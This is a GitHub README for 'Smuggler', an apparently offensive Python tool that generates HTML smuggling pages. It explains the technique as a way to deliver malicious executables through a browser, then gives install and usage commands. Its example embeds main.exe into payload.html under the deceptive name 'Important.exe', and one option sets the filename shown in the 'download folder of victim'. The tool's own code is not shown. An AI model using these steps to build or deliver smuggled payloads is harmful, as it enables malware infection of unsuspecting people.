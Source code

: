 ```
███████╗███╗   ███╗██╗   ██╗ ██████╗  ██████╗ ██╗     ███████╗██████╗
██╔════╝████╗ ████║██║   ██║██╔════╝ ██╔════╝ ██║     ██╔════╝██╔══██╗
███████╗██╔████╔██║██║   ██║██║  ███╗██║  ███╗██║     █████╗  ██████╔╝
╚════██║██║╚██╔╝██║██║   ██║██║   ██║██║   ██║██║     ██╔══╝  ██╔══██╗
███████║██║ ╚═╝ ██║╚██████╔╝╚██████╔╝╚██████╔╝███████╗███████╗██║  ██║
╚══════╝╚═╝     ╚═╝ ╚═════╝  ╚═════╝  ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝
```

### HTML Smuggling

HTML smuggling is a technique used to deliver malicious payloads (such as executables or scripts) through web browsers by leveraging HTML and JavaScript. The process typically involves encoding a payload into a format suitable for embedding within HTML documents, often using methods like Base64 encoding. When the victim opens the crafted HTML file, the browser executes the embedded script, which can trigger the download of the malicious payload without requiring any user interaction.

![](https://outflank.nl/wp-content/uploads/2018/08/html_smuggling_explained.png)

### Usage

```
❯ git clone https://github.com/orbixio/http_smuggling
❯ cd http_smuggling
❯ pip install -r requirements.txt
❯ npm install -g javascript-obfuscator
❯ python main.py -h

███████╗███╗   ███╗██╗   ██╗ ██████╗  ██████╗ ██╗     ███████╗██████╗
██╔════╝████╗ ████║██║   ██║██╔════╝ ██╔════╝ ██║     ██╔════╝██╔══██╗
███████╗██╔████╔██║██║   ██║██║  ███╗██║  ███╗██║     █████╗  ██████╔╝
╚════██║██║╚██╔╝██║██║   ██║██║   ██║██║   ██║██║     ██╔══╝  ██╔══██╗
███████║██║ ╚═╝ ██║╚██████╔╝╚██████╔╝╚██████╔╝███████╗███████╗██║  ██║
╚══════╝╚═╝     ╚═╝ ╚═════╝  ╚═════╝  ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

usage: main.py [-h] [-o OUTPUT] -i INPUT [-f FILENAME]

HTTP Smuggling

options:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output file (default=cwd + 'payload.html')
  -i INPUT, --input INPUT
                        Input file to embed in payload
  -f FILENAME, --filename FILENAME
                        Filename that will appear in browser and download folder of victim
```
**Example**
```
❯ python main.py -i payload\main.exe -o payload.html -f Important.exe

███████╗███╗   ███╗██╗   ██╗ ██████╗  ██████╗ ██╗     ███████╗██████╗
██╔════╝████╗ ████║██║   ██║██╔════╝ ██╔════╝ ██║     ██╔════╝██╔══██╗
███████╗██╔████╔██║██║   ██║██║  ███╗██║  ███╗██║     █████╗  ██████╔╝
╚════██║██║╚██╔╝██║██║   ██║██║   ██║██║   ██║██║     ██╔══╝  ██╔══██╗
███████║██║ ╚═╝ ██║╚██████╔╝╚██████╔╝╚██████╔╝███████╗███████╗██║  ██║
╚══════╝╚═╝     ╚═╝ ╚═════╝  ╚═════╝  ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

[+] HTML file 'payload.html' generated successfully.
```

### Resources
- https://www.outflank.nl/blog/2018/08/14/html-smuggling-explained/
- https://github.com/Arno0x/EmbedInHTML
- https://obfuscator.io